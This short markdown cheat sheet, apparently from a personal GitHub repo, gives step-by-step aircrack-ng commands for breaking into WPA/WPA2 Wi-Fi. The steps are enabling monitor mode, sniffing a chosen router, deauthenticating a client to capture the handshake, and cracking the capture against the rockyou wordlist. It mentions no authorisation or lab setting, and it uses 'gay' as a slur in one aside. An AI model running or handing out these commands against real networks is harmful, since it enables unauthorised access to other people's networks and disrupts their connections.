 # Monitor mode on
```
airmon-ng                   -> search which interface can be monitored. (probably wlan0)
airmon-ng start wlan0
```
# Check which interface is monitored
```
iwconfig
(probably wlan0mon)
```
# Get all wireless routers (wifis) around
```
airodump-ng wlan0mon

*** You need to save the BSSID (MAC address) of the wifi u want + the channel number ***
```
# Start sniffing the network
```
airodump-ng -c 3 —bssid 9C:5C:8E:C9:AB:C0 -w DonAndLiron wlan0mon           -> -c = channel of the (optional) ; -bssid (router mac address) ;  -w name to save the capture (cap)
```
now we wait to check for the "WPA handshake: D4:AB:BC:DC:CD:AD" to pop up. that means uve got a handshake.
# Deauth attack
```
On the previous step, u sniffed the wifi. now u can deauth a client and catch the handshake.
under youll see another table. (BSSID STATION PWR Rate Lost Frames Notes Probes)     -> we care about BSSID, STATION and LOST , FRAMES, NOTES.
BSSID is the wifi MAC address
STATION is the client's MAC address
LOST and Frames will be usefull to see if the deauth works.
Notes = name of the client (not always it says the name)

now after u get the shit u need its time to deauth. (if it says cannot deauth cause gay is channel 4 and u channel 6 so just spam the command it will catch what u need)

aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 -c 64:BC:0C:48:97:F7 wlan0mon
```
# Crack the Cap!
```
aircrack DonAndLiron-01.cap -w /usr/share/wordlists/rockyou.txt          -> -w wordlist.
enjoy!
```
https://hakin9.org/crack-wpa-wpa2-wi-fi-routers-with-aircrack-ng-and-hashcat/